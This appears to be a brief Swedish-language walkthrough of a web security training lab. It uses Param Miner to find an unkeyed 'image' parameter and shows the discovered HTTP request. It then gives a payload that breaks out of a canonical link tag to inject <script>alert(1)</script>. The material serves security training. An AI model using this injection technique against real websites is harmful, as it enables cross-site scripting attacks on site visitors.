 1. Körde param miner på *Guess everything!* fick fram nedan, notera `?image=` 
###### Secret uncached input: url
```
GET /?image=zwrtxqvahqau62rtnvouy6k&r=zwrtxqvas2hw2opunvs554c&files=zwrtxqvaorg91hqfnvyzxcn&tags=zwrtxqvarzuqqi45nvho6oi&users=zwrtxqvayz4bgnf1nvmny38&send=zwrtxqvaz9rk29g3nvgbyet&updated=zwrtxqvasni8jmx5nvo00gh&skips=zwrtxqvajk7ja1ubnvqnttf&gj11r02=1 HTTP/2
Host: 0a1100f70431250e8538e4010020001b.web-security-academy.net
Sec-Ch-Ua: "Chromium";v="129", "Not=A?Brand";v="8"
Sec-Ch-Ua-Mobile: ?0
Sec-Ch-Ua-Platform: "macOS"
Accept-Language: en-US,en;q=0.9
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.7
Sec-Fetch-Site: none
Sec-Fetch-Mode: navigate
Sec-Fetch-User: ?1
Sec-Fetch-Dest: document
Accept-Encoding: gzip, deflate, br
Priority: u=0, i
Connection: keep-alive
Origin: https://gj11r02.com
Via: gj11r02
```

2. `?image=asddsdsadsa` reflekteras i en canonical link. Man kan bryta sig ur denna med följande payload: 
   `zwrtxqvahqau62rtnvouy6k'/><script>alert(1)</script>`
3. boom labberabbedooo är klar my guy